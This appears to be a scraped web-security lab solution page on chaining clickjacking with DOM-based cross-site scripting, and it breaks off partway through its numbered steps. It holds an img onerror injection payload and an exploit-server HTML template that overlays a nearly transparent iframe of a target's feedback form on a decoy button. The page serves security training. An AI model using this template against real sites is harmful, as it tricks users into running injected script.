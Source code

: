 ```html
                        <span id="feedbackResult">Thank you for submitting feedback, <img src="1" onerror="alert(1)">!</span>
                    </form>
```

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
					<li>
						<p>
							Go to the exploit server and paste the following HTML template into the <strong>Body</strong> section:
						</p>
						<code class="code-scrollable">&lt;style&gt;
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
	div {
		position:absolute;
		top:$top_value;
		left:$side_value;
		z-index: 1;
	}
&lt;/style&gt;
&lt;div&gt;Test me&lt;/div&gt;
&lt;iframe
src="$url?name=&lt;img src=1 onerror=print()&gt;&amp;email=hacker@attacker-website.com&amp;subject=test&amp;message=test#feedbackResult"&gt;&lt;/iframe&gt;</code>
					</li>
					<li>
						Make the following adjustments to the template:
						<ul>
							<li>
								Replace <code>$url</code> in the iframe <code>src</code> attribute with the URL for the target website's "Submit feedback" page.
							</li>
							<li>
								Substitute suitable pixel values for the $height_value and $width_value variables of the iframe (we suggest 700px and 500px respectively).
							</li>
							<li>
								Substitute suitable pixel values for the $top_value and $side_value variables of the decoy web content so that the "Submit feedback" button and the "Test me" decoy action align (we suggest 610px and 80px respectively).
							</li>
							<li>
								Set the opacity value $opacity to ensure that the target iframe is transparent. Initially, use an opacity of 0.1 so that you can align the iframe actions and adjust the position values as necessary. For the submitted attack a value of 0.0001 will work.
							</li>
						</ul>
					</li>
					<li>
						Click <strong>Store</strong> and then <strong>View exploit</strong>.
					</li>
					<li>
